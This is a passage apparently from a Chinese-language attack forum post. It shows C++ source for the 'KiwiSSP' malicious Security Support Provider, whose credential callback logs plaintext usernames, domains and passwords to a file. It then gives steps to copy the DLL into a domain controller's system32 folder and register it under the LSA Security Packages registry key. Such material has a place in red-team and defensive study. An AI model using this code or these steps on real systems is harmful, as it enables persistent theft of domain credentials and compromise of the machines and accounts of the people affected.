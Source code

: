 ```c++

NTSTATUS NTAPI kssp_SpGetInfo(PSecPkgInfoW PackageInfo)
{
    PackageInfo->fCapabilities = SECPKG_FLAG_ACCEPT_WIN32_NAME | SECPKG_FLAG_CONNECTION;
    PackageInfo->wVersion   = 1;
    PackageInfo->wRPCID     = SECPKG_ID_NONE;
    PackageInfo->cbMaxToken = 0;
    PackageInfo->Name       = L"KiwiSSP";
    PackageInfo->Comment    = L"Kiwi Security Support Provider";
    return STATUS_SUCCESS;
}

NTSTATUS NTAPI kssp_SpAcceptCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
    FILE * kssp_logfile;;
#pragma warning(push)
#pragma warning(disable:4996)
    if(kssp_logfile = _wfopen(L"kiwissp.log", L"a"))
#pragma warning(pop)
    {   
        klog(kssp_logfile, L"[%08x:%08x] [%08x] %wZ\\%wZ (%wZ)\t", PrimaryCredentials->LogonId.HighPart, PrimaryCredentials->LogonId.LowPart, LogonType, &PrimaryCredentials->DomainName, &PrimaryCredentials->DownlevelName, AccountName);
        klog_password(kssp_logfile, &PrimaryCredentials->Password);
        klog(kssp_logfile, L"\n");
        fclose(kssp_logfile);
    }
    return STATUS_SUCCESS;
}

NTSTATUS NTAPI kssp_SpLsaModeInitialize(ULONG LsaVersion, PULONG PackageVersion, PSECPKG_FUNCTION_TABLE *ppTables, PULONG pcTables)
{
    *PackageVersion = 0x00000042;
    *ppTables = &kiwissp_SecPkgFunctionTable;
    *pcTables = 1;
    return STATUS_SUCCESS;
}
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0ed894c7a4ec61e06512a212cdec6f2f159b23bd.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0ed894c7a4ec61e06512a212cdec6f2f159b23bd.png)

64位和32位的都有,和目标系统位数要一致。  
将该dll拷贝到域控`c:\windows\system32`下  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-190132b3fab3b4727a3df9ee4125b84ab062e0df.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-190132b3fab3b4727a3df9ee4125b84ab062e0df.png)

打开注册表,修改域控位置`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa\Security Packages\`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-fb9c9f86d4a88f2a389a923cd514ad53afa321e4.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-fb9c9f86d4a88f2a389a923cd514ad53afa321e4.png)
